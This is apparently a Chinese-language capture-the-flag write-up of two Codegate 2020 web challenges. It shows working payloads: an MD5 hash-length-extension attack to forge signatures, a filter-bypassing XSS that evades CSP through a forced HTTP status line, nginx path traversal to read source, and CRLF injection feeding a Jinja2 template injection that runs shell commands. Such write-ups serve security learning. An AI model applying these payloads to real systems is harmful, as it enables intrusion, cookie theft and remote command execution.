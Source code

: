 # Codegate 2020 Web Writeup
一共2道Web题

## CSP

![](./Codegate2020/1.png)
题目一共三个页面`view.php`(API提交页面),`api.php`(通过验证输入的md5来加载自定义页面),`report.php`(提交url页面)都有相同的CSP:  

```
Content-Security-Policy: default-src 'self'; script-src 'none'; base-uri 'none';
```
完全禁用了javascript
`view.php`输入参数提交`name`,`p1`,`p2`后会生成一个`iframe`来显示`api.php`  
题目提供了`api.php`的源码:
```php
<?php
require_once 'config.php';

if(!isset($_GET["q"]) || !isset($_GET["sig"])) {
    die("?");
}

$api_string = base64_decode($_GET["q"]);
$sig = $_GET["sig"];


if(md5($salt.$api_string) !== $sig){
    die("??");
}

//APIs Format : name(b64),p1(b64),p2(b64)|name(b64),p1(b64),p2(b64) ...
$apis = explode("|", $api_string);
foreach($apis as $s) {
    $info = explode(",", $s);
    if(count($info) != 3)
        continue;
    $n = base64_decode($info[0]);
    $p1 = base64_decode($info[1]);
    $p2 = base64_decode($info[2]);

    if ($n === "header") {

        if(strlen($p1) > 10)
            continue;
        if(strpos($p1.$p2, ":") !== false || strpos($p1.$p2, "-") !== false) //Don't trick...
            continue;
        header("$p1: $p2");
    }
    elseif ($n === "cookie") {
        setcookie($p1, $p2);
    }
    elseif ($n === "body") {
        if(preg_match("/<.*>/", $p1))
            continue;
        echo $p1;
        echo "\n<br />\n";
    }
    elseif ($n === "hello") {
        echo "Hello, World!\n";
    }
}
```

其中`api.php`中`q`参数是`base64(base64(name),base64(p1),base64(p2))`后的值  
`sig`为`md5($salt."base64(name),base64(p1),base64(p2)")`的值,如果验证成功则正常显示
![](./Codegate2020/2.png)
可以看到代码中有个注释为`//APIs Format : name(b64),p1(b64),p2(b64)|name(b64),p1(b64),p2(b64) ...`  
支持多个API输入,不过在`view.php`中我们只能输入产生一个API,所以先要构造能输入多个API的`sig`  
这里需要用到hash拓展攻击来构造md5,这里用的工具是[HashPump](https://github.com/bwall/HashPump)
首先在`view.php`将`name`,`p1`,`p2`都设置为空得到
`/api.php?sig=7f104404b0d414d18ab3efb831e333d7&q=LCw=`  
这样`q`解base64为`,,`,而`sig`的值为`md5($salt.',,')`  
由于我们暂时不知道`$salt`长度,为了验证  
首先`base64('hello')`得到`aGVsbG8=`,于是构造`,,|aGVsbG8=,,`如果能显示Hello, World!则说明攻击成功
通过`$ hashpump -s '7f104404b0d414d18ab3efb831e333d7' --data ',,' -a '|aGVsbG8=,,' -k 12`
修改这里`-k`的参数(也就是salt长度)不断去尝试  
![](./Codegate2020/4.png)
发现`-k`设置为12时页面能正确返回

```
http://110.10.147.166/api.php?sig=c35ad82f4eb1496f83ba17c5e8bfaf49&q=LCyAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABwAAAAAAAAAHxhR1ZzYkc4PSws
```
![](./Codegate2020/3.png)
到这里我们可控一个返回页面的`header`(冒号前有长度限制),`cookie`,`html`(通过"%0a"绕过`preg_match`限制,如`<script%0a>alert(1)</script%0a>`)
接下来是要绕过CSP  
通过php的`header()`设置的响应头，查看官方文档  
![](./Codegate2020/5.png)
通过404报错页面得知服务器版本:`nginx/1.14.0 (Ubuntu)`  
不过源码`header()`中有个`:`不知是否影响，直接试一试
![](./Codegate2020/6.png)
这样状态码就是可控的,而且http为某些状态码时可以发现响应包并无CSP  
![](./Codegate2020/8.png)
构造修改header的同时添加html:

```
|aGVhZGVy,SFRUUC8xLjA=,MTIz|Ym9keQ==,PHNjcmlwdAo+YWxlcnQoMSk8L3NjcmlwdAo+,

http://110.10.147.166/api.php?sig=793a4e17484343a3cce447185718b27a&q=LCyAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABwAAAAAAAAAHxhR1ZoWkdWeSxTRlJVVUM4eExqQT0sTVRJenxZbTlrZVE9PSxQSE5qY21sd2RBbytZV3hsY25Rb01TazhMM05qY21sd2RBbyss
```
可成功触发js弹窗
![](./Codegate2020/7.png)
构造获取cookie再通过report发送即可  
![](./Codegate2020/9.png)
flag: CODEGATE2020{CSP_m34n5_Content-Success-Policy_n0t_Security}

## renderer
题目描述是用`nginx`和`flask`写的，且给了
Dockerfile:
```
FROM python:2.7.16

ENV FLAG CODEGATE2020{**DELETED**}

RUN apt-get update
RUN apt-get install -y nginx
RUN pip install flask uwsgi

ADD prob_src/src /home/src
ADD settings/nginx-flask.conf /tmp/nginx-flask.conf

ADD prob_src/static /home/static
RUN chmod 777 /home/static

RUN mkdir /home/tickets
RUN chmod 777 /home/tickets

ADD settings/run.sh /home/run.sh
RUN chmod +x /home/run.sh

ADD settings/cleaner.sh /home/cleaner.sh
RUN chmod +x /home/cleaner.sh

CMD ["/bin/bash", "/home/run.sh"]
```
和 run.sh:
```bash
#!/bin/bash

service nginx stop
mv /etc/nginx/sites-enabled/default /tmp/
mv /tmp/nginx-flask.conf /etc/nginx/sites-enabled/flask

service nginx restart

uwsgi /home/src/uwsgi.ini &
/bin/bash /home/cleaner.sh &

/bin/bash
```
![](./Codegate2020/renderer_1.png)
存在文件读取漏洞
`http://110.10.147.169/static../run.sh`
最后找到源码

```
http://110.10.147.169/static../src/app/__init__.py
http://110.10.147.169/static../src/app/routers.py
```
![](./Codegate2020/renderer_2.png)

![](./Codegate2020/renderer_3.png)
![](./Codegate2020/renderer_4.png)
![](./Codegate2020/renderer_5.png)
85行`urllib`存在CRLF漏洞
70行`return render_template_string(log)`存在模板注入漏洞
需要通过CRLF构造各种header并将模板注入代码写入`log`中
由于`rip`可以由`XFF`伪造,而且将`rip`写入了`log`,故这里可任意写入

```
write log: "http://127.0.0.1/renderer/admin/ HTTP/1.1\x0d\x0aX-Forwarded-For: {{ config.__class__.__init__.__globals__['os'].popen('echo $FLAG').read() }}\x0d\x0a"

read log: "http://127.0.0.1/renderer/admin/ticket?ticket=6ed78a6aeebd7278438205a1a56d8aad6dfa3131 HTTP/1.1\x0d\x0aUser-Agent: AdminBrowser/1.337\x0d\x0aHost: 127.0.0.1\x0d\x0a\x0d\x0a1"
```
![](./Codegate2020/renderer_6.png)

flag: CODEGATE2020{CrLfMakesLocalGreatAgain}